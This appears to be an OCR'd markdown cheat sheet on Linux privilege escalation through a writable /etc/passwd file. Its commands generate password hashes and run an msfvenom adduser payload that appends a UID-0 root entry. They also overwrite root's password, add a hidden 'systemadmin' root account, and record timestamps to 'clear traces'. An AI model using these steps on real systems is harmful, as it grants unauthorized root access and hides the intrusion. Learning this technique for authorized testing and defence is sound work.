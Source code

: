 # Living off the Land

## 01 - Detect

Weak File Permissions - Writable `/etc/passwd`

```
$ ls -l /etc/passwd
```

## 02 - Exploit

Generate a new hash password.

```
$ openssl passwd -1 thispass123
```

For older linux systems

```
$ openssl passwd -1 -salt new thispass123
```

You can generate a payload in `msfvenom`. Before you modify the file be sure to modify the shell prompt from `/bin/sh` to `/bin/bash`.

```
$ msfvenom -p cmd/unix/adduser user=root pass=thispass123 rootmethod=SUID checksudoers=false
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
echo 'root:$1$Az$ObbFqO8iNmyzmcavUiQWR1:0:0::/:/bin/sh'>>/etc/passwd
```

> [!NOTE] Collect Timestamps
> Before modifying the `/etc/passwd` file. Take note of the timestamp and keep a backup copy to clear traces ahead of time.

```
$ stat /etc/passwd

$ cp /etc/passwd /tmp/passwd.bak
```

### 2.1 - Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
```

Authenticate as root with the password

```
$ su root
```

### 2.2 - Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

> [!INFO]
> Replace `<new_hash>` with the hashed password.

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)